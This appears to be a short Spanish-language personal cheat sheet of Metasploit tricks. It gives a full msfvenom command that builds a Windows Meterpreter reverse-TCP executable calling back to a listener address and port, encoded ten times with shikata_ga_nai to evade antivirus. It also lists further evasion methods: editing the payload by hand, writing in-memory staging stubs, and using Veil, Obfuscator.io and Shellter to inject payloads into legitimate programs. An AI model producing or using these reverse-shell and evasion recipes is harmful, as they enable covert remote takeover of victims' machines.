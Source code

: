 # Metasploit tricks

## Encode payloads

#### Para listar encoders: `msfvenom -l encoders`

#### Para generar un payload encodeado
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o payload.exe`

### Ofuscaciones extras (A investigar)
- Modifica manualmente el payload: Cambia pequeñas partes del código para evitar patrones detectables.
- Compila un stub personalizado: Escribe un programa en C/C++ o Python que desempaquete y ejecute el payload en memoria (técnica de staging).
- Usa herramientas externas:
- Veil Framework: Genera payloads ofuscados.
- Obfuscator.io: Ofusca binarios.
- Shellter: Inyecta payloads dinámicos en ejecutables legítimos.

